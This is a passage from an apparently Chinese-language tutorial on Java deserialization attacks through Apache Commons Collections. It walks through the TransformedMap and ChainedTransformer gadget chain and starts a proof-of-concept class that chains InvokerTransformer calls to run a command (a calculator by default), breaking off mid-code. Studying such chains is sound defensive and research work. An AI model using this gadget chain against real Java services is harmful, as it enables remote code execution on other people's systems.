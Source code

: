 然后要想利用`InvokerTransformer`类中的`transform()`来达到任意命令执行，还需要一个入口点，使得应用在反序列化的时候能够通过一条调用链来触发`InvokerTransformer`中的`transform()`接口。

然而在 Apache Commons Collections 里确实存在这样的调用，其一是位于`TransformedMap`类中的`checkSetValue()`方法：

```
public class TransformedMap
        extends AbstractInputCheckedMapDecorator
        implements Serializable {
...省略...
    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }

```

而`TransformedMap`实现了`Map`接口，而在对字典键值进行`setValue()`操作时会调用`valueTransformer.transform(value)`。

```
...省略...
        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }

```

好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个`InvokerTransformer`实例级联在一起组成一个`ChainedTransformer`对象，在其调用的时候会进行一个级联`transform()`调用：

```
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }

```

现在已经可以造出一个`TransformedMap`实例，在对字典键值进行`setValue()`操作时候调我们构造的`ChainedTransformer`，下面给出示例代码：

```
package exserial.examples;  

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;   

import java.util.HashMap;
import java.util.Map;   

public class SetValueToExec {   

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(","); 

        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
```